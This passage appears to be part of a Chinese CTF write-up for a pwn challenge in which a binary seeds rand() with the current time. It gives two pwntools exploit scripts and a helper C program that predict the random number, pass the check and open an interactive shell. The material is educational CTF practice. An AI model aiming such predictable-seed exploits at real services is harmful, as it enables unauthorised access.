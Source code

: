 
大家可以尝试着多读读汇编

分析到这，本题的大体思路就是以当前时间为随机数种子，预测随机数，绕过程序检查获取 shell

#### 编写利用程序

**常规解法：**（这里给两种写法，第一种比较正规，第二种会有失败的概率）

[exp.py](writeup/exp.py)

```python
from pwn import *
from ctypes import cdll

context.arch = 'amd64'
context.log_level = 'debug'

if args['REMOTE']:
    io = remote('ip',port)
else:
    io = process('./GAME')

libc = cdll.LoadLibrary("libc.so.6")
libc.srand(libc.time(0))
number = libc.rand() % 999 + 1

io.sendlineafter(b'Input:\n',str(number).encode())
io.interactive()
```
**懒人解法：**

[random.c](writeup/random.c)

```c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

int main() {
    int a;
    srand(time(0));
    a = rand() % 999 + 1;
    printf("%d",a);
    return 0;
}
```

[exp1.py](writeup/exp1.py)


```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

if args['REMOTE']:
    io = remote('ip',port)
else:
    io = process('./GAME')

io.sendlineafter(b'Input:\n',os.popen('./random').read())
io.interactive()
```
